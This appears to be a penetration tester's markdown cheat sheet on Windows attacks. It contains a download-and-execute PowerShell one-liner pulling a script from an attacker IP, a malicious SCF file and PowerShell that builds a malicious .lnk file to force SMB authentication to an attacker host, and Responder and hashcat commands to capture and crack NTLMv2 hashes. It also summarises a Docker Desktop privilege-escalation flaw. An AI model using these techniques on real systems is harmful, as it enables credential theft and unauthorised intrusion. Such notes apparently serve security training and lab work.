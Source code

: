 **Traffic Capture
- Wireshark
- tcpdump
- net-creds

## Process Command Lines

**Monitoring for Process Command Lines
```procmon.ps1
while($true)
{

  $process = Get-WmiObject Win32_Process | Select-Object CommandLine
  Start-Sleep 1
  $process2 = Get-WmiObject Win32_Process | Select-Object CommandLine
  Compare-Object -ReferenceObject $process -DifferenceObject $process2

}
```

**Running Monitor Script on Target Host
```ps
IEX (iwr 'http://10.10.10.205/procmon.ps1') 
```

## Vulnerable Services

https://medium.com/@morgan.henry.roman/elevation-of-privilege-in-docker-for-windows-2fd8450b478e
- Docker Desktop Community Edition 2.1.0.1
- Allows all users to write to C:\PROGRAMDATA\DockerDesktop\version-bin\ folder
- Create executable that runs when Docker applicaitons starts and when a user authenticates using the command 'docker login.'

## SCF on a File Share

SCF - Shell Command File
We can change the icon file location of an SCF file to point to a specific UNC path and have Windows Explorer start an SMB session when the folder where the .scf file resides is accessed.
Run Repsonder, Inveigh, or InveighZero to capture NTMLv2 password hashes.

**Malicious SCF File
1. Name the file '@Inventory.scf'
```
[Shell]
Command=2
IconFile=\\10.10.14.3\share\legit.ico
[Taskbar]
Command=ToggleDesktop
```
2. Start Responder
```
sudo responder -wrf -v -I tun0
```
3. Cracking NTLMv2 Hash with Hashcat
```
hashcat -m 5600 hash /usr/share/wordlists/rockyou.txt
```


## Capturing Hashes with a Malicious .lnk File

Using SCFs no longer works on Server 2019 hosts, but we can achieve the same effect using a malicious .lnk file

**Generating a Malicious .lnk File
https://github.com/dievus/lnkbomb
```ps
$objShell = New-Object -ComObject WScript.Shell
$lnk = $objShell.CreateShortcut("C:\legit.lnk")
$lnk.TargetPath = "\\10.10.15.5\@pwn.png"
$lnk.WindowStyle = 1
$lnk.IconLocation = "%windir%\system32\shell32.dll, 3"
$lnk.Description = "Browsing to the directory where this file is saved will trigger an auth request."
$lnk.HotKey = "Ctrl+Alt+O"
$lnk.Save()
```
